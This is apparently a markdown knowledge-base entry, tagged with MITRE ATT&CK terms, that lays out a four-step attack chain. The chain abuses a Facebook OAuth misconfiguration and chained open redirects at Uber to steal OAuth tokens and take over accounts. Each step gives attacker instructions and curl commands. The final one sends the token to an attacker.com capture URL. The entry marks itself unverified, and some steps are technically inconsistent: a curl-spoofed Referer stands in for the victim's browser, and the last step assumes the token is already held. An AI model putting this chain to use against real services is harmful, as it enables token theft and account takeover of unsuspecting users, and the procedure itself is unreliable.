

---
tags:
  - oauth-misconfig
  - open-redirect
  - token-theft
  - account-takeover
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Initiate-Facebook-OAuth-with-Malicious-Redirect-URI]]'
  - '[[procedures/Chain-Redirect-to-Uber-Auth-Endpoint]]'
  - '[[procedures/Redirect-to-Uber-Logout-Endpoint]]'
  - '[[procedures/Exploit-Open-Redirect-on-Logout-to-Steal-Token]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
  - '[[Steal Web Session Cookie]]'
updated_at: '2025-12-14T17:24:39.158Z'
description: >-
  A multi-stage attack exploiting Uber's Facebook OAuth misconfiguration and
  chained open redirects to steal the victim's OAuth token, enabling full
  account takeover.
id: 6e7bd0f1-5f93-4256-b454-d36ed206a5f5
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
  - '[[Steal Web Session Cookie]]'
---
# Chained OAuth Misconfiguration and Open Redirects for Uber Facebook Token Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting Uber's OAuth setup with Facebook to steal authorization tokens via chained redirects.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[tools/curl]] for testing redirects
- Attacker-controlled domain for final redirect

### Target Environment

- Web platform with Facebook OAuth integration
- Uber's auth endpoints (auth.uber.com, login.uber.com)
- No special ports; standard HTTPS/443

### Initial Access Requirements

- Victim must authorize the malicious OAuth flow (e.g., via phishing link)
- Public access to Facebook and Uber login pages
- No prior credentials needed; relies on victim interaction

## Detailed Attack Procedures

### Step 1: Initiate OAuth Authorization on Facebook
procedure: [[procedures/Initiate-Facebook-OAuth-with-Malicious-Redirect-URI]]

**Objective**: Trick the victim into starting an OAuth flow with a crafted redirect_uri that points to Uber's misconfigured endpoint, setting up the chain.

**Instructions**: Craft a Facebook OAuth authorization URL with a malicious redirect_uri. Use [[commands/curl-oauth-initiate]] to test or serve via phishing:

```bash
curl "https://www.facebook.com/v18.0/dialog/oauth?client_id=UBER_APP_ID&redirect_uri=https://auth.uber.com/login?next_url=https://login.uber.com/logout&scope=public_profile,email&response_type=token" -v
```

Replace UBER_APP_ID with the actual Uber Facebook app ID (discoverable via public sources). The victim clicks this link, authorizes on Facebook, and gets redirected.

**Expected Output**: Redirect to the specified redirect_uri with OAuth code or token in params.

**Success Indicators**:
- Victim reaches Facebook authorization page
- Redirect occurs to auth.uber.com/login?next_url=...

### Step 2: Redirect from Facebook to Uber's Auth Endpoint
procedure: [[procedures/Chain-Redirect-to-Uber-Auth-Endpoint]]

**Objective**: Leverage Facebook's redirect to hit Uber's auth endpoint, passing the chained next_url parameter.

**Instructions**: After authorization, Facebook redirects automatically. Simulate with [[commands/curl-facebook-redirect]]:

```bash
curl -L "https://www.facebook.com/v18.0/dialog/oauth?client_id=UBER_APP_ID&redirect_uri=https://auth.uber.com/login?next_url=https://login.uber.com/logout&scope=public_profile,email&response_type=token" -H "Referer: https://attacker.com" -v
```

The misconfigured Uber app accepts the redirect_uri format, processing it without validation.

**Expected Output**: 302 redirect to auth.uber.com/login?next_url=https://login.uber.com/logout, potentially with OAuth params.

**Success Indicators**:
- HTTP 302 status to Uber auth
- next_url parameter preserved in redirect

### Step 3: Redirect from Auth Endpoint to Logout Using next_url
procedure: [[procedures/Redirect-to-Uber-Logout-Endpoint]]

**Objective**: Have Uber's auth endpoint follow the next_url parameter to chain to the logout endpoint.

**Instructions**: The auth.uber.com/login endpoint redirects based on next_url. Test with [[commands/curl-uber-auth-redirect]]:

```bash
curl -L "https://auth.uber.com/login?next_url=https://login.uber.com/logout" -H "Referer: https://www.facebook.com" -v
```

No validation on next_url allows arbitrary internal redirects.

**Expected Output**: 302 redirect to https://login.uber.com/logout with preserved params.

**Success Indicators**:
- Redirect to logout endpoint
- OAuth token still in URL params

### Step 4: Exploit Open Redirect on Logout to Attacker Site
procedure: [[procedures/Exploit-Open-Redirect-on-Logout-to-Steal-Token]]

**Objective**: Use the logout endpoint's Referer-based redirect to send the victim (and token) to the attacker's site for capture.

**Instructions**: Control the Referer header to point to attacker site. Use [[commands/curl-uber-logout-redirect]]:

```bash
curl -L "https://login.uber.com/logout" -H "Referer: https://attacker.com/capture?token=$(echo $OAUTH_TOKEN)" -v
```

The endpoint redirects to the Referer URL, leaking the token in the query string.

**Expected Output**: Final 302 to attacker.com/capture with OAuth token in params.

**Success Indicators**:
- Victim redirected to attacker site
- Token captured in server logs or URL

## Attack Chain Summary

### Key Achievements

1. Bypassed OAuth redirect validation to chain internal Uber redirects
2. Exploited Referer header reliance for open redirect
3. Achieved full Uber account takeover via stolen Facebook-linked token

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise
- [[Steal Web Session Cookie]] Steal Web Session Cookie

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Credential Access]] Credential Access

---

*Last updated: 2023-10-01T00:00:00Z*
